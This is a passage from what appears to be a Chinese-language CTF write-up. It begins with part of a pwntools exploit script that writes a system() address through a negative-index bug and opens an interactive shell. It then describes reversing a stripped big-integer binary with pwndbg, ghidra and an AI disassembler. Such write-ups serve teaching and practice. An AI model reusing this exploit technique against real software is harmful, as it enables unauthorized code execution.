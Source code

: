 ```python
time.sleep(1)

p.sendline(b"1")
p.sendline(b"2")  # key
p.sendline(b"10")
p.sendline(b"CCCCDDDD")
time.sleep(1)


offset = 104
p.sendline(b"3")
p.sendline(b"2")  # key
p.sendline(str(-offset).encode())
p.sendline(p64(system_addr))
# p.sendline(p64(edit_addr))
time.sleep(1)

# input(str(p.pid))
p.sendline(b"3")
p.sendline(b"1")  # key
# p.sendline(b"ls")
# p.sendline(b"cat flag.txt")
time.sleep(1)
p.interactive()
```



## binary-bigint

这题没有任何 symbols，一开始觉得完全不可做，没想到做出来了。

我们使用那个 MLM 反汇编，可以获得一些函数的内容，虽然很多都是错的。通过不断使用 pwndbg 打断点和 ghidra，我们可以逐渐定位出一些函数的功能并且在 ghidra 里重命名。这里的技巧应该是该跳过的跳、该猜的猜，最后发现很多函数都只是在复制内存？？每次都先问 MLM 那个函数是干什么的，这样也许可以节省时间。到关键时刻它真的能节省时间了，它成功识别出了跟高精度有关的函数：将一个字节流以 128 base 存到一个十进制大整数类里，大整数类是一个 int[]，第一个是长度，后面都是 0-9 的位。
